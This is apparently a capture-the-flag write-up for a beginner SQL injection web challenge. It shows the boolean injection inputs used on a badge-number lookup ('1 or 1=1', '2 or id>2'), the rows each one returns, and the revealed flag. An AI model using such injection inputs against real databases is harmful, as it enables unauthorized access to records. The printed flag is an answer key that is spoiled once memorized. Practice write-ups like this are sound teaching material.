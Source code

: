 ```yaml
---
title: "OpenCTF : SQL 10"
date: 2025-03-19
categories: 
  - "general"
---
```


**Category:** Web

**Points:** 10

**Description:**

```
https://sql-mayham.openctf.com/ziopxuoiwquyerhnszpasdyvzlkxcjlwerqwer/sql-10/
```

When `1` is entered it returns the following row:

```
Enter a badge number to view that officers file:1
(1, 'bob', 'simmons', 'none')
```

Performing a basic sql injection we got the same row back but no error. The server only returns 1 row

```
Enter a badge number to view that officers file:1 or 1=1
(1, 'bob', 'simmons', 'none')
```

Entering an ID of 2 no results are found.

```
Enter a badge number to view that officers file:2 
None
```

Using the sql injection an OR was added to say “id>2”

```
Enter a badge number to view that officers file:2 or id>2
(152135123451, 'flag', 'flag', 'Th@tW@53@5yHuh')
```

This returns the flag in the one other row in the database

# Flag

**Th@tW@53@5yHuh**
